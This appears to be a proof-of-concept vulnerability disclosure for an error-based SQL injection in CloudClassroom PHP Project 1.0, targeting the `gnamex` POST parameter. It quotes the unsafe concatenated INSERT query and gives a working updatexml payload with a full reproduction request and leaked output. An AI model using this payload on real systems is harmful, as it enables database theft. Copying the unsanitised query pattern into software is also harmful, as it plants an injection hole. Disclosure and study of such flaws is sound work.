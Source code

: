 # CLOUD-CLASSROOMS-php-1.0 PoC - Sql Injection Erro Based

Presentation:
- Security vulnerability: SQL Injection
- Vulnerability Type: Injection
- Affected Component: Post Query functionality (postquerypublic)
- Software: CloudClassroom PHP Project
- Version: 1.0 (discontinued).
- Business area: Education / e-Learning Platforms

Describe the bug/issue:
A SQL Injection vulnerability exists in the Post Query feature of the CloudClassroom PHP Project.
The vulnerable parameter is gnamex (sent via POST), and the backend directly concatenates user input into SQL statements without proper sanitization or parameterized queries.

- This allows an attacker to inject arbitrary SQL commands, enabling:

- Extraction of sensitive information (user credentials, exam results, etc.)

- Enumeration of databases, tables, and columns

- Potential compromise of the entire application and underlying database

# Evidence of Vulnerability:

The vulnerable endpoint:

http://<target>/CloudClassroom-PHP-Project-master/postquerypublic

# Vulnerable parameter:

POST: gnamex
Original SQL code (from source):

$sql = "INSERT INTO `query`(`Query`, `Eid`) VALUES ('$tempsquery','$tempseid')";

Because the input is not sanitized, attackers can inject SQL like:

a' AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) AND '1'='1

Steps to Reproduce:
Open the Post Query form at:

http://<target>/CloudClassroom-PHP-Project-master/postquerypublic
Intercept the request (e.g., with Burp Suite) or craft a manual POST:


- POST /CloudClassroom-PHP-Project-master/postquerypublic
- Content-Type: application/x-www-form-urlencoded

- gnamex=a' AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) AND '1'='1&email=test@test.com&squeryx=test&update=Post Query!

Observe the response returning:

XPATH syntax error: '~cc_db~'
Which reveals the current database name.
